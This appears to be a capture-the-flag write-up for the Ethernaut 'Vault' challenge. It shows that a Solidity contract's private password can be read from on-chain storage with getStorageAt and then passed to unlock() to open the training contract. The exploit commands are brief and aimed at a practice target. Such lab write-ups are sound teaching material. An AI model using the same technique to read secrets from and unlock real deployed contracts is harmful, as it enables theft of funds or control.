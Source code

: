 # Solution to challenge 8 : Vault

[https://solidity-by-example.org/hacks/accessing-private-data](https://solidity-by-example.org/hacks/accessing-private-data/)

*Making something `private` or `internal` only prevents other contracts from reading or modifying the information, but it will still be visible to the whole world outside of the blockchain.*

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/vault1.png)

We use the `web3.eth.getStorageAt(addr,index)` function, we want the second element, so `index=1`.

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/vault2.png)


The `unlock(bytes32 password)` function takes bytes32 as input, so we simply call this function with what we just found : `contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')`

Finally we can verify the status of the vault by checking `bool public locked;` value : `await web3.eth.getStorageAt(instance,0)`

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/vault3.png)

BONUS : We can use `web3.utils.HexToAscii()` function to have a "readable" string :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/vault4.png)
